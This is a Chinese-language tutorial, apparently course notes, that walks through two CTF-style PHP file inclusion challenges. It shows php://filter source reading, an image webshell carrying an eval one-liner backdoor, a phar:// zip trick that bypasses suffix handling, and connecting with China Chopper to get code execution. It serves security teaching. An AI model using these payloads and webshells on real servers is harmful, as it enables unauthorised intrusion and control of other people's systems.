# 网络安全：P9：文件包含漏洞实战解析











在本节课中，我们将通过两道实战题目，深入理解文件包含漏洞的原理、利用方式以及绕过技巧。我们将学习如何发现漏洞、读取源码、上传恶意文件并最终获取系统权限。





---

## 概述



文件包含漏洞允许攻击者包含并执行服务器上的任意文件，是Web安全中常见的高危漏洞。本节课将通过两个由浅入深的实战案例，演示如何利用本地文件包含（LFI）漏洞，结合文件上传功能，实现远程代码执行（RCE）。

---







## 第一题：基础文件包含与上传绕过





上一节我们介绍了文件包含的基本概念，本节中我们来看看如何在一个简单的环境中发现并利用它。





首先访问目标网站，查看页面源代码。在源代码中，我们发现了一个提示：`include.php`。



```php
// 示例：在index.php源码中发现的线索
<!-- 试试 include.php?file= -->
```

根据提示，我们尝试访问 `include.php` 文件，并通过 `file` 参数尝试包含自身。

```
http://target.com/include.php?file=include.php
```

如果页面正常显示或包含自身内容，说明存在文件包含漏洞。接着，我们再次查看 `include.php` 页面的源代码，发现了新的线索：`upload.php`。

访问 `upload.php`，这是一个文件上传页面。我们需要查看其后台过滤规则，以确定如何绕过。





以下是查看 `upload.php` 源码的方法，使用PHP伪协议 `php://filter`：

```
http://target.com/include.php?file=php://filter/convert.base64-encode/resource=upload.php
```

将返回的Base64编码字符串解码，即可得到 `upload.php` 的源代码。分析源码，发现它仅允许上传图片格式（如GIF、JPEG、PNG），并检查了文件的MIME类型。

由于存在文件包含漏洞，我们可以上传一个包含PHP代码的图片文件（图片木马），然后通过包含该图片文件来执行代码。

以下是制作图片木马的命令（Windows环境）：

```bash
copy normal.jpg /b + shell.php /a webshell.jpg
```



其中 `shell.php` 内容为一句话木马：





```php
<?php @eval($_POST['cmd']);?>
```



制作完成后，在 `upload.php` 页面上传 `webshell.jpg` 文件。上传成功后，通过文件包含漏洞来包含这个图片文件：

```
http://target.com/include.php?file=upload/webshell.jpg
```

包含成功后，即可使用中国菜刀等工具连接该URL，密码为 `cmd`，从而获得Webshell。

**核心要点**：本关利用了基本的本地文件包含漏洞，结合简单的文件上传黑白名单校验绕过，实现了代码执行。

---

## 第二题：进阶绕过与PHAR协议利用

在掌握了基础利用后，本节我们来看一个增加了防护措施的题目。题目提示当前是 `PHP` 文件，并且发现参数 `file` 的值后会自动拼接 `.php` 后缀。





首先尝试使用第一题的方法读取源码：

```
http://target.com/include2.php?file=php://filter/convert.base64-encode/resource=upload
```



注意，这里没有写 `upload.php`，因为后台会自动为 `file` 参数的值拼接 `.php` 后缀。如果直接写 `upload.php`，最终会变成 `upload.php.php`，导致文件不存在。



解码后分析 `upload.php` 源码，发现其过滤规则与第一题类似。但关键区别在于，本关的包含点会在包含文件时自动添加 `.php` 后缀。这意味着，如果我们直接包含上传的图片木马 `webshell.jpg`，实际会尝试包含 `webshell.jpg.php`，这个文件不存在，导致利用失败。

因此，我们需要一种方法，让被包含的文件本身就是一个有效的 `PHP` 文件，同时又能绕过上传检测。这里引入 **PHAR协议** 的利用。

PHAR（PHP Archive）是PHP的压缩文件格式。`phar://` 伪协议可以读取压缩包内的文件，并且**压缩包内的文件后缀不会被自动修改**。

利用步骤如下：

1.  **创建一个包含恶意代码的PHP文件**，例如 `shell.php`：
    ```php
    <?php phpinfo(); ?>
    ```
2.  **将该PHP文件打包成ZIP压缩包**，并重命名为 `shell.jpg` 以绕过上传检测。
    ```bash
    zip shell.jpg shell.php
    ```
3.  在 `upload.php` 页面上传 `shell.jpg`（实际上是一个ZIP压缩包）。
4.  利用文件包含漏洞，通过 `phar://` 协议执行压缩包内的 `shell.php`：
    ```
    http://target.com/include2.php?file=phar://upload/shell.jpg/shell.php
    ```
    由于 `phar://` 协议会直接读取压缩包内的文件结构，并执行指定的 `shell.php`，从而绕过了后台添加 `.php` 后缀的限制。

如果 `shell.php` 是一句话木马，则同样可以使用中国菜刀进行连接。



**核心要点**：本关通过分析后台自动添加后缀的行为，利用 `phar://` 伪协议读取压缩包内文件的特点，巧妙地绕过了防护，实现了代码执行。

---





## 总结

本节课我们一起学习并实践了文件包含漏洞的两种典型利用场景：

1.  **基础利用**：通过源代码发现线索，利用本地文件包含漏洞读取上传功能源码，制作图片木马上传并包含执行。
2.  **进阶绕过**：面对后台自动添加后缀的防护，利用 `phar://` 压缩包协议，将恶意PHP文件隐藏在压缩包内上传并执行。



关键技巧在于灵活运用各种PHP伪协议（`php://filter`、`phar://`）进行信息收集和漏洞利用，并结合文件上传功能实现最终的远程代码执行。理解服务器端的处理逻辑是成功绕过防护的关键。